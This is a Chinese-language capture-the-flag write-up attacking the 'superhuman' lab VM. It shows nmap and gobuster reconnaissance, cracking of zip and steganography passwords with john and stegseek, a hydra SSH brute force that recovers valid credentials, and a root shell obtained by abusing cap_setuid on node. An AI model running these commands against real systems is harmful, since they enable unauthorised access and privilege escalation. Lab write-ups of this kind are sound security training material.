







# 信息搜集
主机发现

```
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00044s latency).
MAC Address: 08:00:27:D0:6B:DB (Oracle VirtualBox virtual NIC)

```
端口扫描

```
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 02:11 EDT
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:D0:6B:DB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.3  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 02:12 EDT
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:D0:6B:DB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds

```
# 漏洞利用
看一下80端口



目录扫描

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.3 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.3
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================

```
看一下源码中的图片




下载下来看一下

```
┌──(kali㉿kali)-[~]
└─$ steghide extract -sf 1.jpg  
Enter passphrase: 
steghide: could not extract any data with that passphrase!

```
需要密码，爆破一下

```
┌──(kali㉿kali)-[~]
└─$ stegseek 1.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Progress: 99.47% (132.7 MB)           
[!] error: Could not find a valid passphrase.

```
没有结果，换个字典重新扫一下目录

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x php,html,htm,js,css,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.3
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,htm,js,css,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 658]
/.html                (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/notes-tips.txt       (Status: 200) [Size: 358]
/logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.html (Status: 403) [Size: 277]
Progress: 8296778 / 8296785 (100.00%)
===============================================================
Finished
===============================================================

```
看一下/notes-tips.txt



解密一下





/salome_and_me.zip

```
┌──(kali㉿kali)-[~]
└─$ unzip salome_and_me.zip 
Archive:  salome_and_me.zip
[salome_and_me.zip] salome_and_me.txt password: 
   skipping: salome_and_me.txt       incorrect password

```
也需要密码，爆破一下

```
┌──(kali㉿kali)-[~]
└─$ zip2john salome_and_me.zip > 1.txt
ver 2.0 efh 5455 efh 7875 salome_and_me.zip/salome_and_me.txt PKZIP Encr: TS_chk, cmplen=252, decmplen=443, crc=91CF0992 ts=393B cs=393b type=8
                                                                
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt 1.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
turtle           (salome_and_me.zip/salome_and_me.txt)     
1g 0:00:00:00 DONE (2025-03-11 03:18) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
看一下压缩包里有什么



得到三个名字：fred\Salome\schopenhauer，保存下来爆破一下

```
┌──(kali㉿kali)-[~]
└─$ stegseek 1.jpg /home/kali/pass.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek


[!] error: Could not find a valid passphrase.

```
不是图片的，那就试试ssh

```
┌──(kali㉿kali)-[~]
└─$ hydra -L pass.txt -P pass.txt ssh://192.168.21.3 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-11 03:26:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://192.168.21.3:22/
[22][ssh] host: 192.168.21.3   login: fred   password: schopenhauer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-11 03:26:11

```
ssh

```
┌──(root㉿kali)-[~]
└─# ssh fred@192.168.21.3                                 
The authenticity of host '192.168.21.3 (192.168.21.3)' can't be established.
ED25519 key fingerprint is SHA256:uMQFM7I4Jh7Aalpln+uDJju+nTUifr7VU8OTI1+E7Uc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.3' (ED25519) to the list of known hosts.
fred@192.168.21.3's password: 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  1 03:36:39 2021 from 192.168.0.28
fred@superhuman:~$ 

```
# 提权
不能ls

```
fred@superhuman:~$ id
uid=1000(fred) gid=1000(fred) groups=1000(fred),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
fred@superhuman:~$ sudo -l
-bash: sudo: command not found
fred@superhuman:~$ ls -la
lol
Connection to 192.168.21.3 closed.

```
但是知道有一个user.txt和root.txt。user.txt

```
fred@superhuman:~$ cat user.txt
Ineedmorepower
fred@superhuman:~$ echo *
cmd.txt user.txt
fred@superhuman:~$ cat cmd.txt
"ls" command has a new name ?!! WTF !

```
寻找能提权的地方

```

fred@superhuman:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/node = cap_setuid+ep

```



root.txt

```

fred@superhuman:~$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# id
uid=0(root) gid=1000(fred) groups=1000(fred),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
# cd /root
# echo *
root.txt
# cat root.txt
Imthesuperhuman

```